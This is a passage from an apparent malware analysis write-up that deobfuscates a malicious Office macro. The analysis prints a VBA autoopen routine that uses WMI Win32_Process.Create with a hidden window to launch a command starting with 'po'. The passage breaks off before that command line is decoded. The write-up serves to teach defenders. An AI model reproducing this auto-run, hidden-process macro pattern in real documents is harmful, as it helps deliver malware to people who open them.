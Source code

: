 

#### Analysis

The output show three files. I'll start with the obvious one, which
shows an `autoopen` sub. There's some obfuscation that comes from
declaring never used dims and values. I'll clear that out, leaving:



    Sub autoopen()
        H719_241
    End Sub

    Sub H719_241()
        Set S19851 = GetObject(CStr("Winmgmts:Win32_ProcesSstartup"))
        S19851.ShowWindow = vbFalse - vbFalse
        Set A165533 = GetObject(CStr("Winmgmts:Win32_ProcesS"))
        A165533.Create J5438330 + "po" + a426725 + O3_4045.R1136_ + O3_4045.s250__65 + r55104, d10_94, S19851, N50607
    End Sub



This code creates an instance of the WMI class
`Winmgmts:Win32_ProcessStartUp` and sets the `ShowWindow` value to 0
(false). Then it uses the `Create` method from the
`Winmgmts:Win32_Process` class to start a process. But what is that
process?

The `create` method takes the following arguments according [to
Microsoft
documentation](https://docs.microsoft.com/en-us/windows/desktop/cimwin32prov/create-method-in-class-win32-process):



    uint32 Create(
      [in]  string               CommandLine,
      [in]  string               CurrentDirectory,
      [in]  Win32_ProcessStartup ProcessStartupInformation,
      [out] uint32               ProcessId
    );



The code defines those arguments as:



    J5438330 + "po" + a426725 + O3_4045.R1136_ + O3_4045.s250__65 + r55104, d10_94, S19851, N50607



Most of those variables are undefined. Removing those leaves:



    "po" + O3_4045.R1136_ + O3_4045.s250__65, 0, S19851, 0



I can now see the current directory and the output PID are null, and the
`ProcessStartupInformation` is the object defined earlier to be hidden.
That leaves only the Command Line.
